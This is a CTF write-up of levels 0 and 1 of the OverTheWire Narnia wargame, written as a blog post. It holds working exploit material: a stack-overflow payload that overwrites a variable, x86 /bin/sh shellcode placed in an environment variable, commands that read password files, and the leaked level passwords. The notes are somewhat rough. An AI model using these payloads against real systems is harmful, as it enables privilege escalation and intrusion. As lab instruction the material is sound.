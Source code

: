 ```yaml
---
layout: post
title: Wargame/CTF Write-up - OverTheWire Narnia
tags: [Linux, Exploit, CTF, Wargame]
---
```


# Introduction to Narnia

[Narnia]() is one of OverTheWire's intermediate levels.  There are a total of 10 levels and runs on Linux/x86.  What follows below is the original description of narnia, copied from intruded.net:

Description:

> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it. The difficulty of the game is somewhere between Leviathan and Behemoth, but some of the levels could be quite tricky.

Here's some additional information pertaining to each game:

* Narnia's levels are called narnia0, narnia1, ... etc.
* Passwords (flags) for each level are in `/etc/narnia_pass/narniaX`.
* Levels are stored in /narnia/.  Each level contains a source code file and a corresponding executable.
* OTW provides the following SSH Information:

   ```
   Host: narnia.labs.overthewire.org
   Port: 2226
   ```

Narnia can be accessed with the below SSH command.  Use the following SSH command to login to each game.

```bash
clarissa@ubuntu:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
```

## Level 0

The credentials to login to the first level are given:

narnia0 (username) / narnia0 (password)

First, `cd` to /narnia/ where all the data is located.  View the source code for this level with `cat narnia0.c`.

```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
```

This level is pretty simple and can be solved simply by looking at the source code.  Pay attention to the order in which the variables `val` and `buf` are declared.

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

After the two local variables are pushed onto `main`'s stack frame, the stack memory is arranged like so:

![narnia0]({{ site.baseurl }}/assets/img/narnia.png)


The arrow in the above diagram indicates the direction of the stack overwrite.  Because `buf` is placed higher up on the stack, we can write past `buf` and change the contents of `val`.  So, 20 characters to fill `buf` plus another 4 for `0xdeadbeef` (in reversed order because of little-endian notation) will overwrite `val` with the correct value.

The first character is the least significant byte, due to the little-endian architecture.  This means to control the value variable with something exact, you must write those bytes into memory in reverse order.

Python can execute instructions on the command line by using the -c switch.  print command is useful for generating sequences of characters.  This command executes the commands found between the single quotes.

Using Python with the `-c` switch will process/generate one line of code.  I'll use this technique to generate and output the payload as a string of bytes.

`python -c 'print "A"*20 + "\xef\xbe\xad\xde"'`

Then, I'll pass the output from the Python command into the executable's input via pipe redirection.  The full command and response is shown below.

```bash
narnia0@narnia:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Great, we successfully changed the contents of `val` from `0x41414141` to `0xdeadbeef`, but no shell?!  What happened here is that the shell closed before we were able to use it.  So, we need a way to force the shell to stay open.  This can be done using a trick that appends `cat` to the input to keep shell open.

The trick is to append the cat command to the input
cat /etc/narnia_pass/narnia1
efeidiedae

The revised solution and shell is given below.

```bash
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
**********
```

The shell elevates our privileges one level up.  Since we're logged in as narnia0, we'll be able to access files as narnia1.  Once in the shell, I'll usually confirm this escalation with `whoami` or `id` then read the flag with `cat /etc/narnia_pass/narnia1`.
The shell prompt runs with elevated privileges. gain a root shell.

## Level 1

SSH into narnia1 with the username `narnia1` and the password we found in the previous level.
ENV VAR, SHELLCODE INJ

Let's start by reading the source code file for `narnia1.c`.

```c
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```

The program is attempting to execute code at `getenv("EGG")`.  The function `getenv()` searches the environment of the calling process for the environment variable called "EGG" and returns a pointer to the value of the environment variable.  Otherwise, a null pointer is returned.

A buffer is not the only location that can hold shellcode.  There are other locations in memory where shellcode can be stashed.

Programs use environment variables

Environment variables are used by the user shell for a variety of things, but what they are used for isn’t as important as the fact they are located on the stack and can be set from the shell.
The example below sets an environment variable called MYVAR to the string test.
This environment variable can be accessed by prepending a dollar sign to its name. In addition, the env command will show all the  environment variables.

```
export MYVAR=test
echo $MYVAR
env
```

Similarly, the shellcode can be put in an environment variable, but first it needs to be in a form we can easily manipulate. The shellcode from the notesearch exploit can be used; we just need to put it into a file in binary form.
Shellcode in a file shellcode.bin. ** find in booksrc folder.

Using the below the command I was able to create the environment varible called “EGG” which will contain the shellcode. The shellcode is used to gain a shell, it is a “/bin/sh” payload.

So here we need to set an environment variable named EGG to something we want executed. We can't just pass /bin/bash as it's going to call whatever we give it as a function. Ideally we want a shell, so what we need in this case is the shellcode to do just that.
shellcode
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

Now we have the shellcode in a file.  This can be used with command substitution to put shellcode into an environment variable.
export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)

An entire shell command can be executed like a function, returning its output in place.  The output of the command between the parentheses is substituted for the command.

The shellcode is now on the stack in an environment variable.  The env variables are located near the bottom of the stack.

```bash
narnia1@melinda:~$ cd /narnia
narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
$
```
